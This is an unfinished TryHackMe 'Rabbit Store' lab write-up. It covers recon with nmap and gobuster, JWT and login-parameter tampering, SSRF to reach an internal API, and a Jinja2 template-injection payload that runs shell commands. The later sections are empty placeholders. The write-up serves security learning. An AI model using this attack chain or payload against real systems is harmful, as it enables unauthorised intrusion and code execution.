

# TryHackMe Rabbit Store Writeup


## Overview
Demonstrate your web application testing skills and the basics of Linux to escalate your privileges.

---

## Table of Contents
- [Overview](#overview)
- [Recon & Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Post-Exploitation & Cleanup](#post-exploitation--cleanup)
- [Conclusion](#conclusion)

---

## Recon & Enumeration
```zsh
➜  ~ nmap -sS -vv -A -p- -T4 cloudsite.thm
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 61 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    syn-ack ttl 61 Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://cloudsite.thm/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
4369/tcp  open  epmd    syn-ack ttl 61 Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 25672
25672/tcp open  unknown syn-ack ttl 61
```

```zsh
➜  ~ gobuster dir -u http://cloudsite.thm -w /usr/share/wordlists/dirb/common.txt -xtxt,php,html,js -t30
/about_us.html        (Status: 200) [Size: 9992]
/assets               (Status: 301) [Size: 315] [--> http://cloudsite.thm/assets/]
/blog.html            (Status: 200) [Size: 10939]
/contact_us.html      (Status: 200) [Size: 9914]
/index.html           (Status: 200) [Size: 18451]
/javascript           (Status: 301) [Size: 319] [--> http://cloudsite.thm/javascript/]
/server-status        (Status: 403) [Size: 278]
/services.html        (Status: 200) [Size: 9358]
Progress: 23070 / 23075 (99.98%)
```

```zsh
➜  ~ gobuster dir -u http://storage.cloudsite.thm -w /usr/share/wordlists/dirb/common.txt -xtxt,php,html,js -t30
/assets               (Status: 301) [Size: 331] [--> http://storage.cloudsite.thm/assets/]
/css                  (Status: 301) [Size: 328] [--> http://storage.cloudsite.thm/css/]
/fonts                (Status: 301) [Size: 330] [--> http://storage.cloudsite.thm/fonts/]
/images               (Status: 301) [Size: 331] [--> http://storage.cloudsite.thm/images/]
/index.html           (Status: 200) [Size: 9039]
/javascript           (Status: 301) [Size: 335] [--> http://storage.cloudsite.thm/javascript/]
/js                   (Status: 301) [Size: 327] [--> http://storage.cloudsite.thm/js/]
/register.html        (Status: 200) [Size: 9043]
/server-status        (Status: 403) [Size: 286]
Progress: 23070 / 23075 (99.98%)
```

+ Testing page `http://cloudsite.thm` --> No potential flaws. 
+ Access page `http://storage.cloudsite.thm` --> Page has 2 features `Login` and `Register`.
+ We try to login default credential but not work. We switch to `/register.html` to create new account and log in again.
+ Login with registered account but account is `inactive`


+ Using `Burp Suite` to intercept the request: 


--> We found the header cookie is `jwt`. Using website [Jwt](https://www.jwt.io/) to decode `JWT`:


--> Parameter `subscription` is the potential. We can switch from `inactive` to `active`.

---

## Exploitation

+ The request `/api/login`, we see the `Content-type` is `application/json` --> We can add `subscription` to active the account.


--> We login new account and status is `active`. Checking new cookie `jwt`


+ Access dashboard, we have 2 features that are `/upload` and `/store-url`. Both features upload file through `API`.

+ Testing feature `/upload':

--> Idea first will update to get reverse shell but the page has the `extension filter` so we can't upload file with malicious code.


+ Testing feature `store-url`, the feature upload from url. Back to the proxy `Burp Suite`:


--> We have the potential parameter `url` to upload so we think first the potential vulnerability `SSRF` to manipulate url. We try the payload to confirm is `SSRF` appear.

+ We test with normal payload `http://localhost/` or `http://127.0.0.1/`. The file upload to `/api/upload/...` so access and check the file.



--> We can access url `http://cloudsite.thm` through localhost so we can confirm the feature has the vulnerability `SSRF` (Server-Side Request Forgery).

+ We've known the url or file upload through /api so we will fuzz to find the hidden endpoints in API:


--> The hidden endpoints `docs` but access denied so we can access /docs by SSRF.

+ We need to find the way to access `http://storage.cloudsite.thm` through `localhost`. Try `Bypassing filters` still does not work so we can fuzz the `Ports`:


--> Bing!!! We have port 3000 can bypass and upload /api/docs.

***Note: Port 3000 is Express Server, if we check the technology in this page with `Wappalyzer` we will find the page is using both servers Express and Apache.***

+ Access the file:


--> Now we can read the file and find the another hidden endpoint API `/api/fetch_messeges_from_chatbot` with method POST.

+ Testing `/api/fetch_messeges_from_chatbot`:


***Note: This page using API REST so the normal content-type is `application/json` if we don't use this content-type so we will get the error 500(Internal Server).***

+ Add parameter `username`:


--> We've seen the reflect `username` so we can check the potential vulnerabilities are `SSTI` and `XSS`.


--> Reflect payload `{{7*7}}` 49 so we confirm that `SSTI` (Server-Side Template Injection) appeared and template is `Jinja2`.

+ We still use feature `Scan active` in `Burp Suite`:


+ Now we can chain SSTI to RCE and we found the payload to RCE in here [RCE](https://github.com/dgtlmoon/changedetection.io/security/advisories/GHSA-4r7v-whpg-8rx3).

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```


---

## Privilege Escalation

+ 

---

## Post-Exploitation & Cleanup
Summarize actions taken after gaining privileged access, including loot collection, persistence mechanisms, and cleanup procedures.

---

## Conclusion
Reflect on the techniques learned and provide recommendations for securing similar environments.


